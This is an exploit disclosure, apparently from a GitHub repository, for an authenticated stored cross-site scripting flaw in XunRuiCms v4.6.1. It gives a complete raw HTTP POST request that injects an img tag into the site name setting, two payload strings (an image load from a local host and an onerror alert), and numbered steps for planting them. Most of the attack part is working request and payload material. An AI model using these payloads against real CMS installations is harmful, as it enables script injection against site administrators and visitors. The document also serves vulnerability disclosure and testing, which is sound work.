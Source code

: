 # XunRuiCms Stored XSS (Authenticated)
#### Exploit Title: XunRuiCms Stored XSS (Authenticated) 
#### Version：Xunrui CMS Public Edition v4.6.1
#### Google Dork: N/A
#### Date: 09/21/2023
#### Tested on：Apache2.4.39，Mysql5.7.26，PHP7.4.3
#### Software Link: https://www.xunruicms.com/down.php

#### Description：XunRuiCms has a storage type xss vulnerability when editing the project name in the project settings tab after logging into the management backend.

#### Payload used:
```
POST /admin6318a5072e99.php?c=site_config&m=index&page=0 HTTP/1.1
Host: 192.168.1.3
Content-Length: 443
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.3
Referer: http://192.168.1.3/admin6318a5072e99.php?c=site_config&m=index
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-TW;q=0.8,zh;q=0.7
Cookie: debug-view=show; debug-bar-tab=ci-database; debug-bar-state=minimized; xunruicms_a5e842945753ffb75ab7ca63139e9dc6=vjdmkfi37qmcrqgd9ctqpdo36dva028k; a5e842945753ffb75ab7ca63139e9dc6_member_uid=1; a5e842945753ffb75ab7ca63139e9dc6_member_cookie=030e05f644709f5674507604a947c7ef
Connection: close

is_form=1&is_admin=1&is_tips=&csrf_test_name=ce1a1cdb6e1e2870bc90e07fb0d624e2&page=0&data%5BSITE_INDEX_HTML%5D=0&data%5BSITE_CLOSE%5D=0&data%5BSITE_CLOSE_MSG%5D=%5Bxss_clean%5D&data%5BSITE_NAME%5D=%E6%88%91%E7%9A%84%E9%A1%B9%E7%9B%AE%3CImg+src%3Dhttp%3A%2F%2F127.0.0.1%3A8000%2Finfo.html%3E&data%5BSITE_LANGUAGE%5D=zh-cn&theme=0&data%5BSITE_THEME%5D=default&data%5BSITE_TEMPLATE%5D=default&data%5BSITE_TIMEZONE%5D=8&data%5BSITE_TIME_FORMAT%5D=
```

#### Example：

1、Log in to the management backend

2、
Find the project settings and edit the project name, write in 
```
<img src=http://127.0.0.1:8000/info.html>
```
or 
```
<img src=x onerror=alert(/xss/)>
```
![2.png](./2.PNG)


<br />
3、Successfully accessed！

![22.png](./22.PNG)





















